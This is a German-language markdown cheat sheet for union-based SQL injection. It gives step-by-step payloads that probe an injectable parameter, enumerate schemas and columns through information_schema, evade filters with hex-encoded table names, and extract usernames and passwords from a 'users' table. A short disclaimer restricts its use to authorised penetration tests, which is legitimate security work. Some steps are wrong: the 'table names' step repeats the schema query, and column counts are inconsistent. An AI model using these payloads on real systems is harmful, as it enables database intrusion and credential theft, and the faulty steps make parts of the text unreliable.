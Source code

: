 # Union-Based SQL Injection Attack

> Dieses Dokument beschreibt die Durchführung einer Union-Based. SQL-Injection zur Extraktion von Daten aus einer Datenbank.

## Ziel

Datenbankinformationen schrittweise über die `UNION SELECT`-Technik auslesen – insbesondere bei anfälligen Parametern wie z. B. `id`, `search`, `user`, etc.

---

## Beispielhafte Schritte zur Datenextraktion mit `GROUP_CONCAT`

1. **Test auf Verwundbarkeit mit UNION SELECT**
```sql```
```test' UNION SELECT 1,2,3 FROM table_name --```

2. **Schemas (Datenbanken) anzeigen:**
`sql`
`test' UNION SELECT 1,group_concat(schema_name),3 FROM information_schema.schemata --`

3. **Tabellennamen der aktuellen Datenbank anzeigen:**
`sql`
`test' UNION SELECT 1,group_concat(schema_name),3 FROM information_schema.schemata --`

4. **Spaltennamen aus einer bestimmten Tabelle anzeigen (Klartextname):**
`sql`
`test' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='users' --`

5. **Spaltennamen anzeigen mit Hex-Wert für Tabellenname (Bypass & Genauigkeit):**
`sql`
`test' UNION SELECT 1,2,3,4,group_concat(column_name),6 FROM information_schema.columns WHERE table_name=0x7573657273 --`

💡 `users` in Hex: 0x7573657273
Tool für Umwandlung: [Codebeautify – String to Hex](https://codebeautify.org/string-hex-converter)

6. **Nutzerdaten ausgeben (z. B. Username & Passwort):**
`sql`
`test' UNION SELECT 1,group_concat(username,0x3a3a,password),3 FROM users --`

---

## Hinweise
- `group_concat()` ist hilfreich zum Kombinieren mehrerer Ergebnisse in einer Zeile.

- Hexadezimaldarstellung (0x...) kann helfen, Filter oder Escaping-Probleme zu umgehen.

- Kommentare wie -- oder --+ beenden den ursprünglichen SQL-Befehl korrekt.

---

## Sicherheitshinweis

Dieses Wissen dient ausschließlich der legalen Anwendung im Rahmen von Penetration Tests mit ausdrücklicher Erlaubnis. Der Missbrauch kann strafrechtlich verfolgt werden.